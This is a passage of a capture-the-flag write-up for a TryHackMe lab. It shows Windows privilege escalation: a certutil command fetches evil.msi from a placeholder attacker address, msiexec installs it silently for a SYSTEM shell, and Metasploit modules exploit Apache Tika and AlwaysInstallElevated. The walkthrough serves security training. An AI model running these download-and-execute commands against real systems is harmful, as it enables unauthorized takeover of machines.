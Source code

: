 ```
certutil.exe -urlcache -split -f http://IP_ADDRESS:PORT_NUMBER/evil.msi evil.msi
```

3. Execute the msi file 

```
msiexec /quiet /qn /i evil.msi
```

4. We get a connection on our listener as `nt authority\system`

![System shell](/images/THM-CyberLens/system-shell.png)

We can read the root flag (admin.txt) on the `Administrator` Desktop.

![System shell](/images/THM-CyberLens/root-flag-manual.png)

---

## Metasploit Method

### User flag

We know which software we are targeting, so we check Metasploit for exploits.

We do find an exploit for `Header Command Injection`.

![Metasploit fins exploit for Apache Tika](/images/THM-CyberLens/apache-tika-exploit.png)

> Make sure to set all the options correctly. The remote port should be `61777`.

After running the exploit we get a meterpreter shell.

![Meterpreter shell](/images/THM-CyberLens/meterpreter-shell.png)

We find the user flag on the user Desktop.

### Privilege Escalation

Now to elevate our privileges we can use the `exploit_suggester` in Metasploit to find some leads.

> You can background the current meterpreter shell with `background`

![Metasploit exploit suggester for privilege escalation](/images/THM-CyberLens/metasploit-privesc.png)

All we have to do is to provide a session number and run the module.

![Metasploit - Exploit suggester module use](/images/THM-CyberLens/exploit-suggester.png)

It finds five possible exploits for our target.

![Exploits list found by exploit suggester in Metasploit](/images/THM-CyberLens/exploits-list.png)

We start with the first one.

```
use exploit/windows/local/always_install_elevated
```
